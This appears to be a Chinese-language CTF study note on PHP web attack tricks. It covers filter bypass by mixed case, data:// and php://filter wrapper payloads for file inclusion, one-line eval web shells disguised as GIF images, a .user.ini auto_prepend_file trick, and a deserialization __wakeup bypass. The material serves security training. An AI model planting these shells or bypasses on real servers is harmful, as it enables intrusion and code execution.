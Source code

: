 ```yaml
---
title: CTF中的PHP知识点
date: 2022-12-29 21:46:39
keywords: ctf
description:  
---
```


## 一些函数的绕开

`str_replace / strstr` 函数在匹配 `php://` 字符串时，可以考虑使用大小写或大小写混合的方式绕过检查。

## 文件读取

```php
<?php  
// $filename 可以用 GET / POST 方式传入
if( isset($text) && (file_get_contents($filename,'r')==="hello ctf")){

}
```

当遇到 file_get_contents($file_name) 代码做条件判断时，尝试通过 data 伪协议传入希望读取的内容。data 伪协议也可以被 `include` 函数调用，从PHP5.2.0起，数据封装流就开始有效，用于数据流的读取。如果传入的都是PHP代码，就会执行任意代码。

### data 伪协议

```php
data://text/plain,hello ctf
data://text/plain;base64,aGVsbG8gY3Rm
```

当遇到 `include` 函数时，可以用 `php://` 伪协议将文件内容打印出来

```php
$file=php://filter/read=convert.base64-encode/resource=flag.php
```

## 文件上传绕过

文件上传功能风险在于被人上传木马，经常用到的一句话木马为 `<?php eval($_GET['a']); ?>`，而绕过的方法有很多种。

* 前端校验
* MIME绕过
* 文件头校验
* 截断绕过
* 图片木马

在文本文件中添加 `GIF89a` 并保存为 jpg 文件，可以伪装成图片文件。利用 `<?` 短符号，可以绕过 php 文件的探测。

```sh
GIF89a                                                                                                                                                                                
<?=eval($_REQUEST['cmd']);?>
```

`.user.ini` 配置，可以将某个文件默认追加到所有执行 php 的文件的头部

```sh
GIF89a                  
auto_prepend_file=b.jpg
```

## 反序列化绕过

序列化就是将运行中的数据或者对象保存为持久化的数据，并且支持将持久化的数据反序列化转换为数据或者对象。序列化的目的是方便数据的传输和存储。

php 的序列化和反序列化会用到 `serialize` 和 `unserialize` 函数。

```php
// 使用这两个替换，可以绕过 wakeup 函数
$a = str_replace(':4:', ':+4:', $a);
$a = str_replace(':1:', ':2:', $a);
```





## 参考资料

1. [CTF include](https://blog.csdn.net/qq_61774705/article/details/126323696)
1. [攻防世界CTF —— PHP本地文件包含漏洞解题思路](https://blog.csdn.net/weixin_47610939/article/details/126019042)
1. [2021-02-23-ctf-Web_php_unserialize反序列化漏洞](https://blog.csdn.net/weixin_43639682/article/details/123686797)
1. [[CTF]PHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692)
